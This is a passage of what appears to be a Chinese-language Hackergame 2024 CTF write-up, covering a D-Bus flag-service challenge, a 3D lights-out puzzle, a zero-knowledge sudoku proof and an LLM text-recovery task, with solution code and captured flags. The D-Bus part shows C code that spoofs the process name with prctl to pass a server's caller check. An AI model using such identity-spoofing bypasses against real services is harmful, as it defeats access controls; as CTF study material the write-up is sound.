3. 将base64编码后的内容提交给服务器

这个程序的关键点是：

1. 使用memfd_create创建一个内存文件描述符，这样创建的fd不会指向文件系统上的任何文件
2. 向memfd写入指定的字符串"Please give me flag2\n"
3. 将文件指针重置到开始位置，这样服务器读取时能读到完整内容
4. 使用g_unix_fd_list_new和g_unix_fd_list_append来创建和添加文件描述符
5. 使用g_dbus_connection_call_with_unix_fd_list_sync而不是普通的call_sync，因为我们需要传递文件描述符

这个方案很巧妙地绕过了服务器的文件系统检查，因为memfd创建的是内存中的文件描述符，不存在于实际的文件系统中，同时又满足了服务器要求读取特定内容的条件。

需要获取flag3吗？

```
flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_36a581e78b}
```

### Comm Say Maybe

让我分析一下获取flag3的要求。

从flagserver.c的代码中，我们可以看到GetFlag3方法有一个特殊的要求：调用程序的进程名（在/proc/{pid}/comm中）必须严格等于"getflag3\n"。

实际上，题目已经提供了getflag3.c，并且在Makefile中会编译并安装到/usr/bin/getflag3。这看起来是正确的实现，但是从题目server.py中可以看到：

1. 程序会以nobody用户身份运行
2. 程序会被放在/dev/shm/executable路径下
3. 程序的名称会变成"executable"而不是"getflag3"

因此，我们需要修改程序来确保进程名是"getflag3"。我们可以使用prctl系统调用来修改进程名：

```c
#define _GNU_SOURCE
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/prctl.h>
#include <string.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    // Set the process name to "getflag3"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) != 0) {
        perror("prctl failed");
        return EXIT_FAILURE;
    }

    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    result = g_dbus_connection_call_sync(
        connection,
        DEST,        // destination
        OBJECT_PATH, // object path
        INTERFACE,   // interface name
        METHOD,      // method
        NULL,        // parameters
        G_VARIANT_TYPE("(s)"), // expected return type
        G_DBUS_CALL_FLAGS_NONE,
        -1,         // timeout (use default)
        NULL,
        &error
    );

    if (result) {
        const gchar *response;
        g_variant_get(result, "(&s)", &response);
        g_print("%s\n", response);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method: %s\n", error->message);
        g_error_free(error);
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```

使用方法：

1. 编译程序:
```bash
gcc getflag3-modified.c `pkg-config --cflags --libs gio-2.0` -o getflag3-modified
```

2. 将编译好的程序转换成base64:
```bash
base64 getflag3-modified --wrap=0
```

3. 将base64编码后的内容提交给服务器

主要的改动是：

1. 添加了prctl系统调用来设置进程名为"getflag3"
2. 修改了返回类型为`G_VARIANT_TYPE("(s")`以正确处理返回值
3. 添加了返回值的打印

这个程序应该能成功获取flag3，因为：

1. 使用prctl设置的进程名会反映在/proc/{pid}/comm中
2. 即使程序文件名是executable，通过prctl设置的进程名依然会生效
3. 程序在nobody用户下运行也不会影响prctl的功能

所有的flags现在都应该拿到了！这个题目很好地展示了DBus服务的安全检查机制，包括：
1. flag1: 简单的字符串匹配
2. flag2: 文件描述符和内容检查
3. flag3: 进程名验证

```
flag{prprprprprCTL_15your_FRiEND_9f3f4bbbc3}
```

</details>

## 关灯

这道题主要是把灯的字符串转换成矩阵，然后用高斯消元法解方程组。最后一问没有想到可以提前保存PLU分解的结果，因此自认为耗时太长就放弃了。

1. 将3D问题转换为线性方程组
2. 使用GF(2)上的高斯消元法求解（因为开关状态是0/1的异或运算）
3. 将解转换回开关序列

```python
import numpy as np
from typing import List, Tuple

def create_coefficient_matrix(n: int) -> np.ndarray:
    """Create the coefficient matrix for the linear system."""
    size = n * n * n
    matrix = np.zeros((size, size), dtype=np.uint8)
    
    for i in range(n):
        for j in range(n):
            for k in range(n):
                idx = i * n * n + j * n + k
                # The switch affects itself
                matrix[idx][idx] = 1
                
                # Affect adjacent positions
                if i > 0:   # up
                    matrix[idx - n*n][idx] = 1
                if i < n-1: # down
                    matrix[idx + n*n][idx] = 1
                if j > 0:   # left
                    matrix[idx - n][idx] = 1
                if j < n-1: # right
                    matrix[idx + n][idx] = 1
                if k > 0:   # front
                    matrix[idx - 1][idx] = 1
                if k < n-1: # back
                    matrix[idx + 1][idx] = 1
    
    return matrix

def gauss_elimination_gf2(matrix: np.ndarray, vector: np.ndarray) -> np.ndarray:
    """Perform Gaussian elimination in GF(2)."""
    n = len(vector)
    augmented = np.column_stack((matrix, vector))
    
    # Forward elimination
    for i in range(n):
        # Find pivot
        pivot_row = i
        while pivot_row < n and augmented[pivot_row, i] == 0:
            pivot_row += 1
            
        if pivot_row == n:
            continue
            
        # Swap rows if necessary
        if pivot_row != i:
            augmented[i], augmented[pivot_row] = augmented[pivot_row].copy(), augmented[i].copy()
        
        # Eliminate below
        for j in range(i + 1, n):
            if augmented[j, i] == 1:
                augmented[j] = (augmented[j] + augmented[i]) % 2
    
    # Back substitution
    solution = np.zeros(n, dtype=np.uint8)
    for i in range(n-1, -1, -1):
        if augmented[i, i] == 0:
            if augmented[i, -1] == 1:
                raise ValueError("No solution exists")
            continue
        
        solution[i] = augmented[i, -1]
        for j in range(i+1, n):
            solution[i] = (solution[i] + augmented[i, j] * solution[j]) % 2
            
    return solution

def solve_lights_out_3d(lights_string: str, n: int) -> str:
    """Solve the 3D Lights Out puzzle."""
    # Convert lights string to array
    lights = np.array([int(x) for x in lights_string], dtype=np.uint8)
    
    # Create coefficient matrix
    coef_matrix = create_coefficient_matrix(n)
    
    # Solve using Gaussian elimination
    try:
        solution = gauss_elimination_gf2(coef_matrix, lights)
        return ''.join(map(str, solution))
    except ValueError:
        return "No solution exists"

# Example usage function
def solve_puzzle(lights_string: str, n: int) -> str:
    result = solve_lights_out_3d(lights_string, n)
    if result == "No solution exists":
        print("No solution exists for this puzzle")
        return ""
    return result

```

flag：

```
flag{bru7e_f0rce_1s_a1l_y0u_n3ed_1f50afa982}
flag{prun1ng_1s_u5eful_690eea3cbb}
flag{lin3ar_alg3bra_1s_p0werful_27dafeebb2}
```

## 零知识数独

### 数独高手

直接做数独就可以得到flag

### ZK高手

在做这道题之前，我对零知识证明完全不了解，因此先问了AI这道题是什么意思：

1. 这是一个零知识数独证明系统，其中:
   - 数独谜题(unsolved_grid)是公开的
   - 解答(solved_grid)是私密的
   - 需要生成一个证明来证明我们知道正确的解答
2. 为了解题，我们需要:
   1. 找到一个有效的数独谜题及其解答
   2. 使用circom电路生成证明
   3. 确保证明可以通过verification_key.json的验证
3. verification_key.json显示这是使用Groth16协议，需要81个公开输入(就是9x9的数独谜题)。

因此，我们需要做的是：

1. 构造一个有效的数独题目和解答
2. 使用setup.sh生成所需的证明系统组件
3. 生成并验证proof.json

先写一个数独解码的脚本：

```python
import json

def print_grid(grid):
    """Pretty print the sudoku grid"""
    for i in range(9):
        if i % 3 == 0 and i != 0:
            print("- - - - - - - - - - - -")
        for j in range(9):
            if j % 3 == 0 and j != 0:
                print("|", end=" ")
            if j == 8:
                print(grid[i][j])
            else:
                print(str(grid[i][j]) + " ", end="")

def convert_1d_to_2d(puzzle):
    """Convert 1D array to 2D grid"""
    return [puzzle[i:i + 9] for i in range(0, 81, 9)]

def is_safe(grid, row, col, num):
    """Check if it's safe to place number"""
    # Check row
    for x in range(9):
        if grid[row][x] == num:
            return False
    # Check column
    for x in range(9):
        if grid[x][col] == num:
            return False
    # Check 3x3 box
    start_row, start_col = 3 * (row // 3), 3 * (col // 3)
    for i in range(3):
        for j in range(3):
            if grid[i + start_row][j + start_col] == num:
                return False
    return True

def solve_sudoku(grid):
    """Solve sudoku using backtracking"""
    empty = find_empty(grid)
    if not empty:
        return True
    
    row, col = empty
    for num in range(1, 10):
        if is_safe(grid, row, col, num):
            grid[row][col] = num
            if solve_sudoku(grid):
                return True
            grid[row][col] = 0
    return False

def find_empty(grid):
    """Find empty cell in grid"""
    for i in range(9):
        for j in range(9):
            if grid[i][j] == 0:
                return (i, j)
    return None

def create_input_files(puzzle_json, output_input="input.json", output_public="public.json"):
    """Create input.json and public.json from puzzle JSON"""
    # Load puzzle
    if isinstance(puzzle_json, str):
        with open(puzzle_json) as f:
            data = json.load(f)
        puzzle = data['puzzle']
    else:
        puzzle = puzzle_json['puzzle']

    # Convert to 2D and solve
    grid = convert_1d_to_2d(puzzle)
    solution = [row[:] for row in grid]  # Create a copy
    
    print("Original puzzle:")
    print_grid(grid)
    
    if solve_sudoku(solution):
        print("\nSolution found:")
        print_grid(solution)
        
        # Create input.json
        input_data = {
            "unsolved_grid": grid,
            "solved_grid": solution
        }
        with open(output_input, 'w') as f:
            json.dump(input_data, f)
        
        # Create public.json
        public_data = {
            "public": [str(x) for x in puzzle]
        }
        with open(output_public, 'w') as f:
            json.dump(public_data, f)
        
        print("\nCreated input.json and public.json successfully!")
    else:
        print("No solution exists!")

# Example usage:
puzzle = {
    "puzzle": [
        9,0,0,0,0,0,1,0,0,
        8,0,0,0,0,0,2,0,0,
        7,0,0,0,0,0,3,0,0,
        0,0,1,0,0,0,0,0,6,
        0,2,0,0,0,0,0,7,0,
        0,0,3,0,0,0,0,0,0,
        0,1,0,0,0,0,0,6,0,
        0,0,2,0,0,0,0,0,7,
        0,3,0,0,0,0,0,0,0,
    ],
    "difficulty": "expert"
}

create_input_files(puzzle)
```

然后用解码好的数独答案生成证明即可：

```shell
./circom-macos-amd64 sudoku.circom --r1cs --wasm --sym
node sudoku_js/generate_witness.js sudoku.wasm input.json witness.wtns
snarkjs groth16 prove sudoku.zkey witness.wtns proof.json public.json
snarkjs groth16 verify verification_key.json public.json proof.json
```

## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」

### 「行吧就算标题可以很长但是 flag 一定要短点」

很搞笑的是，这道题可以拿屏蔽后的字符问LLM，LLM竟然一次给出了正确的答案：

```
In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.
```

## P.S (尝试用LLM Zero-shot完成hackergame)

LLM的性能在这一年有了很大的进步。经过测试，在不反复询问LLM，让他修改回答的情况下，LLM**至少**可以一次做出`Node.js is Web Scale`, `PaoluGPT`, `惜字如金 3.0(1)`, `不太分布式的软总线(1,2,3)`, `零知识数独(1,2)`，加起来已经有1600分了。